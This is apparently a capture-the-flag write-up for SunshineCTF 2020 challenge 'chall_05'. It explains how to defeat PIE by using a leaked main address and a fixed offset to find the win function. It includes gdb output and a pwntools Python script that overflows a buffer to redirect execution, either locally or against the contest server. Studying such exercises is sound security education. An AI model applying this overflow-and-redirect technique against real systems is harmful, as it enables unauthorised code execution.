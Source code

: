 PIE (Position Independent Executable) is a security feature where the binary gets loaded into a random memory location every time. This means we can't just hardcode the address of the `win` function like last time.

The `printf` statement prints out the address of the `main` function. Even if the program gets loaded into different locations every time, the functions will be at the same offset from each other. We can store the address of `main` and calculate the address of `win`.

Location of main locally:
```assembly
(gdb)
Starting program: /mnt/c/Users/meraxes/dev/ctf/sunshine-ctf-2020/chall_05 
Race, life's greatest.
c
Yes I'm going to win: 0x55555555476d
```

Location of win locally:
```assembly
(gdb) x/i win
   0x55555555475a <win>:        push   %rbp
```

The offset difference is `0x55555555475a - 0x55555555476d = -0x13`

```python
#!/usr/bin/env python3

from pwn import *
import re

context.binary = ELF('./chall_05')

if args.REMOTE:
    io = remote('chal.2020.sunshinectf.org', 30005)
else:
    io = process(context.binary.path)    

print(io.recvline())
buffer = 'A' * 56

io.sendline('throwaway')
response = str(io.recvline()) # 'b"Yes I\'m going to win: 0x000xyz\\n"'
print(response)

main_address = re.search("0x[0-9a-f]+", response).group()
offset = 0x13
win_address = int(main_address, 16) - offset
payload = p64(win_address)
exploit = flat(buffer, payload)

print("Sending: ", exploit)
io.sendline(exploit)
io.interactive()
```
